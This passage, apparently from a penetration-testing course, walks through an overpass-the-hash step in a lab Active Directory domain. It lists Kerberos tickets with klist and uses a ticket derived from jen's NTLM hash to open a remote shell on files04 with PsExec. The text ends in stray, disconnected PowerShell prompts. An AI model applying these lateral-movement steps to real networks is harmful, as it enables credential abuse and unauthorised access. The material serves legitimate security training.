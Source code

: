 Now let's use the **klist** command to list the newly requested Kerberos tickets.

```
PS C:\Windows\system32> klist

Current LogonId is 0:0x17239e

Cached Tickets: (2)

#0>     Client: jen @ CORP.COM
        Server: krbtgt/CORP.COM @ CORP.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 2/27/2023 5:27:28 (local)
        End Time:   2/27/2023 15:27:28 (local)
        Renew Time: 3/6/2023 5:27:28 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called: DC1.corp.com

#1>     Client: jen @ CORP.COM
        Server: cifs/files04 @ CORP.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize
        Start Time: 2/27/2023 5:27:28 (local)
        End Time:   2/27/2023 15:27:28 (local)
        Renew Time: 3/6/2023 5:27:28 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called: DC1.corp.com
```

> Listing 21 - Listing Kerberos tickets

The output has the Kerberos tickets, including the TGT and a TGS for the *Common Internet File System* (CIFS) service.

We know that ticket #0 is a TGT because the server is krbtgt.

We used net use arbitrarily in this example, but we could have used any command that requires domain permissions and would subsequently create a TGS.

We have now converted our NTLM hash into a Kerberos TGT, allowing us to use any tools that rely on Kerberos authentication (as opposed to NTLM). Here we will use the official [*PsExec application*](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) from Microsoft.

PsExec can run a command remotely but does not accept password hashes. Since we have generated Kerberos tickets and operate in the context of *jen* in the PowerShell session, we can reuse the TGT to obtain code execution on the files04 host.

Let's try that now, running **.\\PsExec.exe** to launch **cmd** remotely on the files04 machine as *jen*.

```
PS C:\Windows\system32> cd C:\tools\SysinternalsSuite\
PS C:\tools\SysinternalsSuite> .\PsExec.exe \\files04 cmd

PsExec v2.4 - Execute processes remotely
Copyright (C) 2001-2022 Mark Russinovich
Sysinternals - www.sysinternals.com

Microsoft Windows [Version 10.0.20348.169]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
corp\jen

C:\Windows\system32>hostname
```

[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname